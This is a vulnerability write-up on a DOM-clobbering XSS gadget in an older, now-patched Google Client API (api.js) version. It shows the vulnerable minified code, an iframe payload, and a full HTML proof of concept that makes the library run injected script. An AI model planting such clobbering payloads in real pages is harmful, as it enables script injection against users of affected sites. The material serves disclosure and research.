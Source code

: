 ## Google Client API

### Meta

+ Library: Google Client API
+ Starts: N/A
+ Version: 5BIk7BglYEE
+ Payload: ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”></iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert(1)</iframe>```
+ Impact: XSS
+ CVE: N/A
+ Status: Patched
+ Foundby: TheHulk
+ TheThing: None


### Library

URL: 
+ `https://apis.google.com/js/api.js`
+ `https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs`


### Vulnerable Code Snippet

```javascript
var e = document.scripts || document.getElementsByTagName("script") || [];
        d = [];
        var f = [];
        f.push.apply(f, zf("us"));
        for (var h = 0; h < e.length; ++h)
            for (var k = e[h], l = 0; l < f.length; ++l)
                k.src && 0 == k.src.indexOf(f[l]) && d.push(k);
        0 == d.length && 0 < e.length && e[e.length - 1].src && d.push(e[e.length - 1]);
        for (e = 0; e < d.length; ++e)
            d[e].getAttribute("gapi_processed") || (d[e].setAttribute("gapi_processed", !0),
            (f = d[e]) ? (h = f.nodeType,
            f = 3 == h || 4 == h ? f.nodeValue : f.textContent || "") : f = void 0,
            (f = Df(f)) && b.push(f));
        a && Ef(c, a);
```
```javascript
Df = function(a) {
    if (a && !/^\s+$/.test(a)) {
        for (; 0 == a.charCodeAt(a.length - 1); )
            a = a.substring(0, a.length - 1);
        try {
            var b = window.JSON.parse(a)
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return (" + a + "\n)"))()
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return ({" + a + "\n})"))()
        } catch (c) {}
        return "object" === typeof b ? b : {}
    }
}
```

## PoC

Please note that this gadget has been patched by Google through the release of a newer version: [link](https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs). Therefore, initializing `https://apis.google.com/js/api.js` will load the updated script. To demonstrate the DOM clobbering gadgets, we manually load the vulnerable version here.

```
Patched Verison
https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs
```

### PoC #1
```html

<!DOCTYPE html>
<html>
<head>
  <title>Google API Client Example</title>
  <script>
    // Load the Google API client library
    function loadGapi() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/js/api.js';
      script.onload = () => initGapi();
      document.body.appendChild(script);
    }

    // Initialize the Google API client library
    function initGapi() {
      gapi.load('client', initClient);
    }

    // Set up the API client and make a request
    function initClient() {}

    // Load the additional script
    function loadAdditionalScript() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs';
      document.body.appendChild(script);
    }

    // Initialize the loading process
    function initialize() {
      loadGapi();
      loadAdditionalScript();
    }
  </script>
</head>
<body onload="initialize()">
  <h1>Google Sheets API Client Example</h1>
  // PAYLOAD
  <iframe name="scripts" src="https://apis.google.com/js/api.js">alert("GG!")</iframe>
  <iframe name="scripts" src="https://apis.google.com/js/api.js">alert("GG!")</iframe>
</body>
</html>
```
